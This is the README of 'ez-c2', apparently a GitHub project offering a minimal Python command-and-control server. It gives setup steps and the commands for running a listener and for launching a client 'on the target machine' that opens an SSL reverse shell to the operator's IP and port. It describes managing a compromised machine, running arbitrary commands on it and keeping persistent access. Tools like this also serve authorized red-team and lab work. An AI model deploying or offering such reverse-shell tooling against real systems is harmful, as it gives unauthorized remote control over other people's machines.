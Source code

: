 init!

# Intro

ez-c2 is a lightweight and minimal Command & Control (C2) server written in Python 3. It enables remote shell access via SSL, making it easy to manage a compromised machine from the command line interface (CLI).




# Getting started

Clone the repository and set up your Python virtual environment: 

```bash
git clone https://github.com/auteqia/ez-c2.git
cd ez-c2/
python3 -m venv venv
chmod +x ./venv/bin/activate
./venv/bin/activate
```

Install any dependencies if required (Add this if your script has a requirements.txt): 

```bash
pip install -r requirements.txt
```


# Usage

It can be used server-side or client-side. 


## Server-side | Listening

Start the C2 server and specify the port to listen on: 
```bash
Usage: python3 script.py -listen <port>
```

Example: 
```bash
python3 script.py -listen 4443
```

## Client-side | Connecting

Run the client script on the target machine to initiate a reverse shell: 
```bash
python3 -connect <server_ip> <server_port>
```
Example: 
```bash
python3 script.py -connect 192.168.1.100 4443
```
The client will establish an SSL connection to the server and spawn a shell. 


# What can you do with ez-c2 ?

Once connected, ez-c2 allows the operator to: 

- Execute arbitrary system commands on the client-side machine
- Receive output of commands via a secure SSL tunnel
- Maintain persistent shell access (implementation dependent)
    


